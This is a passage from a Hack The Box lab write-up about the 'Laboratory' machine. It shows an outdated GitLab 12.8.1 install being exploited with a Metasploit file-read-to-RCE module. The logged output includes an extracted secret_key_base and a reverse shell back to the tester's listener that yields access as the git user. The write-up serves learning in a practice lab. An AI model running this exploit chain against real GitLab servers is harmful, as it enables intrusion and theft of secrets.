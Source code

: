 Using `laboratory.htb` works as the email domain, then we can view the dashbaord:

<figure><img src="../../../.gitbook/assets/image (113) (5).png" alt=""><figcaption></figcaption></figure>

Interestingly, this was running GitLab 12.8.1, which is an outdated version of the software.

<figure><img src="../../../.gitbook/assets/image (72).png" alt=""><figcaption></figcaption></figure>

This version is vulnerable to an LFI.

{% embed url="https://github.com/anjai94/gitlab-file-read-exploit/blob/main/exploitv3.py" %}

It was also vulnerable to RCE exploits.

{% embed url="https://www.rapid7.com/db/modules/exploit/multi/http/gitlab_file_read_rce/" %}

There was a Metasploit module for it, which I honestly wanted to try and it works!

```
msf6 exploit(multi/http/gitlab_file_read_rce) > exploit

[*] Started reverse TCP handler on 10.10.14.42:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. GitLab 12.8.1 is a vulnerable version.
[*] Logged in to user test123
[*] Created project /test123/7fc8Znm1
[*] Created project /test123/QoNdBDpL
[*] Created issue /test123/7fc8Znm1/issues/1
[*] Executing arbitrary file load
[+] File saved as: '/home/kali/.msf4/loot/20230629173041_default_10.129.78.175_gitlab.secrets_009016.txt'
[+] Extracted secret_key_base 3231f54b33e0c1ce998113c083528460153b19542a70173b4458a21e845ffa33cc45ca7486fc8ebb6b2727cc02feea4c3adbe2cc7b65003510e4031e164137b3
[*] NOTE: Setting the SECRET_KEY_BASE option with the above value will skip this arbitrary file read
[*] Attempting to delete project /test123/7fc8Znm1
[*] Deleted project /test123/7fc8Znm1
[*] Attempting to delete project /test123/QoNdBDpL
[*] Deleted project /test123/QoNdBDpL
[*] Command shell session 1 opened (10.10.14.42:4444 -> 10.129.78.175:37260) at 2023-06-29 17:30:50 +0800

id
uid=998(git) gid=998(git) groups=998(git)
```
